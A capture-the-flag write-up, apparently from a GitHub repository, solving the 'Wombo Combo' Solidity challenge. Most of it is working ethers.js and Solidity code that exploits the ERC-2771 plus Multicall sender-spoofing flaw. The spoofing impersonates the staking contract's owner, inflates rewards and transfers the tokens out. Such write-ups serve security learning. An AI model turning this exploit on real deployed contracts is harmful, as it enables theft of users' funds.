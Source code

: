 ## Wombo Combo

### description

You should stake your tokens to get more tokens!

### goal

We may find the goal of this challenge in the [Challenge](./challenge/project/src/Challenge.sol) contract.

```solidity
function isSolved() external view returns (bool) {
    uint256 amazingNumber = 1128120030438127299645800;
    return staking.earnedTotal() >= amazingNumber &&
        staking.rewardsToken().balanceOf(address(0x123)) >= amazingNumber;
}
```

### solution

This challenge is related to the vulnerability when both `Multicall` and `ERC-2711` are implemented.

[Unveiling the ERC-2771 Context and Multicall Vulnerability](https://blog.solidityscan.com/unveiling-the-erc-2771context-and-multicall-vulnerability-f96ffa5b499f)

We may craft spoofed calls to `multicall(bytes[])` and modify the reward in `Staking` contract.

Before attacking the contract, we may first `approve` and `deposit` our `stakingToken` to the `Staking` contract.

```typescript
const stakingToken = await stakingContract.stakingToken();
const stakingTokenContract = await ethers.getContractAt("Token", stakingToken);
const stBalance = await stakingTokenContract.balanceOf(signer);

const approveTx = await stakingTokenContract.approve(stakingAddr, stBalance);
await approveTx.wait();

const stakeTx = await stakingContract.connect(signer).stake(stBalance);
await stakeTx.wait();
```

Next, we may wrap our spoofed calls and modify the reward.

```typescript
const types = {
  ForwardRequest: [
    { name: "from", type: "address" },
    { name: "to", type: "address" },
    { name: "value", type: "uint256" },
    { name: "gas", type: "uint256" },
    { name: "nonce", type: "uint256" },
    { name: "deadline", type: "uint256" },
    { name: "data", type: "bytes" },
  ],
};

const domain = {
  name: "Forwarder",
  version: "1",
  chainId: await ethers.provider
    .getNetwork()
    .then((network) => network.chainId),
  verifyingContract: fwderAddr,
};

const victim = await stakingContract.owner();
const data = {
  from: signer.address,
  to: stakingAddr,
  value: 0n,
  gas: 10_00_000n,
  nonce: nonce,
  data: stakingContract.interface.encodeFunctionData("multicall", [
    [
      // since the duration is 60
      ethers.concat([
        stakingContract.interface.encodeFunctionData("notifyRewardAmount", [
          amazingNumber * 60n,
        ]),
        victim,
      ]),
    ],
  ]),
  deadline: 99999999999999n,
};

const sign = await signer.signTypedData(domain, types, data);
const attackTx = await fwderContract.connect(signer).execute(data, sign);
await attackTx.wait();
```

Next, we may get our rewards and fullfil the first condition of this challenge

```typescript
const getRtTx = await stakingContract.connect(signer).getReward();
await getRtTx.wait();

const earnTotoal = await stakingContract.earnedTotal();
if (earnTotoal < amazingNumber) {
  console.log("Insufficient earnTotal.");
}
```

Finally, we need to send the rewardToken to `address(0x123)`.
I am not sure how to do this with `ethers.js`, so I just do this using a `Sender` contract.

```solidity
contract Sender {
    Token public rewardToken;

    constructor(address _token){
        rewardToken = Token(_token);
    }

    function pwn() external {
        uint256 amazingNumber = 1128120030438127299645800;
        rewardToken.transferFrom(msg.sender, address(0x123), amazingNumber);
    }
}
```
